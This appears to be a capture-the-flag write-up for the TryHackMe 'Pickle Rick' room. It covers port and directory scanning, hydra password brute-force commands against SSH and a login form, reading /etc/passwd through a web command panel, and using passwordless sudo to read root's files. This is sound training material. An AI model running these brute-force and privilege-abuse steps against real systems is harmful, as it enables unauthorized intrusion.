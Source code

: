# THM:Pickle Rick

URL: https://tryhackme.com/room/picklerick [Easy]

Tags: 
<div style="margin-left: 5px;">
{% assign tags = page.tags | split: " " %}
{% for tag in tags %}
<a href="../search/?q={{tag}}" title="Click to search by this tag"><span class="badge bg-secondary">{{tag}}</span></a>
{% endfor %}
</div>
<hr>

## Reconnaissance

Description of the room:

> This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -Pn xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```python
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://xxx.xxx.xxx.xxx`

But then ultimately ran again using the `common.txt` dirb wordlist:

> `gobuster dir -w /usr/share/wordlists/dirb/common.txt  -u http://xxx.xxx.xxx.xxx`

Interesting folders found:

```python
/robots.txt           (Status: 200) [Size: 17] 
```

*Also see: [gobuster.log](gobuster.log) and [gobuster_common.log](gobuster_common.log)*

### Running: `nikto`

Ran the following:

> `nikto -h xxx.xxx.xxx.xxx`

Found the following:

```python
+ /login.php: Admin login page/section found.
```

Also see: [nikto.log](nikto.log)

## Gaining Access

### Unprivileged Access

Unsuccessfully, I did try using the username found in the HTML source of the main `index.html` page with hydra to brute force SSH and the login page, but those didn't work. Those commands were:

#### SSH

```bash
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt \
    ssh://xxx.xxx.xxx.xxx
```

*See: [hydra.ssh.log](hydra.ssh.log)*

#### HTTP

```bash
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt \
    xxx.xxx.xxx.xxx http-post-form \
    "/login.php:username=^USER^&password=^PASS^&sub=Login:F=Invalid username or password."
```

*See: [hydra.web.log](hydra.web.log)*

---

Next, using the username found in the HTML source of the main `index.html` page, and using the potential password we found in `/robots.txt`, we try those credentials from the `/login.php` page, and find that we can log in and use a "Command Panel" which appears to let us run arbitrary commands, and see the results.

We can run `ls -la` to find:

```bash
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

The contents of `Sup3rS3cretPickl3Ingred.txt` are the answer to the "first ingredient" needed for this room.

---

If we run `less /etc/passwd` we can see that there is a user account called `ubuntu`. Or, we can run `ls -la /home/` to see the users who have a home directory. With that, we can see a directory listing of that users' home directory with `ls -ls /home/rick` and get:

```bash
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

The contents of `second ingredients` are the answer to the "second ingredient" needed for this room.

### Privilege Escalation

With this access we have, we can also look in the `ubuntu` users home folder with `ls -la /home/ubuntu` and see:

```bash
total 40
drwxr-xr-x 4 ubuntu ubuntu 4096 Feb 10  2019 .
drwxr-xr-x 4 root   root   4096 Feb 10  2019 ..
-rw------- 1 ubuntu ubuntu  320 Feb 10  2019 .bash_history
-rw-r--r-- 1 ubuntu ubuntu  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3771 Aug 31  2015 .bashrc
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .cache
-rw-r--r-- 1 ubuntu ubuntu  655 May 16  2017 .profile
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .ssh
-rw-r--r-- 1 ubuntu ubuntu    0 Feb 10  2019 .sudo_as_admin_successful
-rw------- 1 ubuntu ubuntu 4267 Feb 10  2019 .viminfo
```

Since we have a `.sudo_as_admin_successful` file, we might assume we have some `sudo` privileges, so we run `sudo -l` to see:

```bash
Matching Defaults entries for www-data on ip-10-10-243-208.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-243-208.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Wow. So, the `ubuntu` account has `sudo` privilege and no password prompt. Let's use that to look in the `root` home folder with `sudo ls -la /root` to find:

```bash
total 28
drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 Feb  6 02:07 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
```

The contents of `3rd.txt` are the answer to the "final ingredient" needed to complete this room.

## Maintaining Access

None needed.

## Clearing Tracks

We never actually "hacked" into this server, so there is nothing to clear.

## Summary

Completed: [2022-02-05 21:56:08]